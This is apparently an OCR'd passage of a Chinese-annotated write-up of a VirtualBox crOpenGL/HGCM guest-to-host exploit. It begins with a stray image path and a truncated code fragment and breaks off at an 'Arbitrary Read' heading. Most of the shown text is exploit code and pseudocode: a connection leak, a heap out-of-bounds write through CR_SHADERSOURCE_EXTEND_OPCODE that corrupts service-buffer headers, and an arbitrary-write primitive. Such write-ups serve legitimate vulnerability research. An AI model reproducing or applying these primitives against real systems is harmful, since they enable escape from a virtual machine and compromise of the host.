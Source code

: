     => crNetAcceptClient => crCalloc(sizeof(CRConnect))
    ```

- Leak Connection

    ```c
    crmsg(client, msg, bufsz=0x1000):
    	buf_uid = alloc_buf(client, bufsz, msg)
    	hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [buf_uid, "A"*bufsz, 1337])
    => svcCall(SHCRGL_GUEST_FN_WRITE_READ_BUFFERED):
    	pWriteback = param[1].addr
    	cbWriteback = param[1].size
    	pSvcBuffer = svcGetBuffer(buf_uid, 0);//从全局buf链表中找到该buf
    	pBuffer = pSvcBuffer->pData;//msg
    	crVBoxServerClientWrite(u32ClientID, pBuffer, cbBuffer); => crUnpackExtend... //根据msg的ExtendCode执行对应的操作
    	crVBoxServerClientRead(u32ClientID, pWriteback, &cbWriteback); //读取执行完的结果，结果存储在原来的"A"*bufsz的地址
    	svcFreeBuffer(pSvcBuffer);

    eg:
    msg = CR_GETUNIFORMLOCATION_EXTEND_OPCODE, 0x248: 生成一个可以读取后面0x248数据的msg
    ```

- Setup Write

    ```python
    """
    通过CR_SHADERSOURCE_EXTEND_OPCODE构造越界写，使得下一个CRVBOXSVCBUFFER_t数据的头部被修改为0x0a0a...的模式
    之后可以通过此特殊的uiId来索引到这个结构体，由于其size非常大，因此可以做任意地址读写
    """
    msg = CR_SHADERSOURCE_EXTEND_OPCODE, [0,2,0,1,0x1a+2] #len(msg)属于0x40的堆块
    uiIds = [alloc_buf(client, len(msg), msg) for i in range(1000)]
    _,res,_ = hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [uiIds[-5],'A'*50, 0x50])
    over_uiId = 0x0a0a0000+uiIds[-4]
    over_uiSize = 0x0a0a30
    ```

- Arbitrary Write

    ```python
    arb_write(where, what):
    	payload = [over_uiId,over_uiSize,0x40,'A'*8+pack('<Q',where)]
    	# 修改over_uiID的下一个CRVBOXSVCBUFFER_t结构体，0x40是实际msg的大小
    	# 因此会将下一个结构体修改为{.uiID='AAAA', .uiSize='AAAA', .pData=where}
    	hgcm_call(client,SHCRGL_GUEST_FN_WRITE_BUFFER,payload)
    	# *where = what
    	hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, ['AAAA','AAAA',0,what])
    ```

- Arbitrary Read
